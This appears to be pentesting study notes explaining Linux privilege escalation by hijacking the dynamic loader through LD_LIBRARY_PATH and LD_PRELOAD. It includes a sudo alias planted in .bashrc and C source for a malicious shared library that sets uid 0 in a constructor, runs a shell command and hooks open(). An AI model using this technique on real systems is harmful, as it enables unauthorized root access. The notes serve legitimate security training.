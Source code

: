 #### Escalation of privileges using LD_LIBRARY_PATH and sudo

Add `alias` to `.bashrc`
```bash
alias sudo="sudo LD_LIBRARY_PATH=/home/offsec/ldlib"
```
Then `source .bashrc`


### How LD_PRELOAD Works

When a program starts, the dynamic linker/loader (`ld.so` or `ld-linux.so`) loads the shared libraries needed by the program. By setting the `LD_PRELOAD` environment variable, you can specify additional shared libraries to be loaded before any other shared libraries.

For example:
```sh
export LD_PRELOAD=/path/to/mylib.so
./myprogram
```

In this scenario, `mylib.so` is loaded before any other library when `myprogram` is executed. This can override functions from the original libraries with the implementations provided in `mylib.so`.

### Malicious Uses of LD_PRELOAD

1. **Credential Theft**: An attacker can use a malicious shared library to intercept and log sensitive information such as passwords.
2. **Privilege Escalation**: If an attacker can trick a privileged program into loading a malicious shared library, they can execute arbitrary code with elevated privileges.
3. **Data Tampering**: An attacker can alter the behavior of a program by overriding its functions, leading to data corruption or other malicious behavior.

### Example of LD_PRELOAD Hijacking

Here’s a step-by-step example of how an attacker could use `LD_PRELOAD` to hijack a function:

#### 1. Create a Malicious Shared Library

```c
// mylib.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

static void runmahpayload() __attribute__((constructor));

void runmahpayload() {
    setuid(0);
    setgid(0);
    printf("DLL HIJACKING IN PROGRESS \n");
    system("touch /tmp/haxso.txt");
}

int open(const char *pathname, int flags) {
    printf("Hijacked open() called for file: %s\n", pathname);
    return -1; // always fail the open call
}
```
